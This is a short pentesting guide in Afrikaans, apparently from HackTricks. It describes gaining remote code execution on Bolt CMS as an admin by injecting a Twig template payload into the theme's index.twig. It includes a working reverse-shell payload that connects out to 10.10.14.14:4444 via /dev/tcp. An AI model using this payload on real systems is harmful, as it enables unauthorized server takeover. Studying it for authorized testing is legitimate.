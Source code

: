 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Na aanmelding as admin (gaan na /bot om die aanmeldprompt te bereik), kan jy RCE in Bolt CMS kry:

- Kies `Configuration` -> `View Configuration` -> `Main Configuration` of gaan na die URL pad `/bolt/file-edit/config?file=/bolt/config.yaml`
- Kontroleer die waarde van tema

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Kies `File management` -> `View & edit templates`
- Kies die tema basis gevind in die vorige (`base-2021` in hierdie geval) stap en kies `index.twig`
- In my geval is dit in die URL pad /bolt/file-edit/themes?file=/base-2021/index.twig
- Stel jou payload in hierdie lêer via [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), soos: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- En stoor veranderinge

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Maak die cache skoon in `Maintenance` -> `Clear the cache`
- Toegang weer die bladsy as 'n gewone gebruiker, en die payload behoort uitgevoer te word

{{#include ../../banners/hacktricks-training.md}}
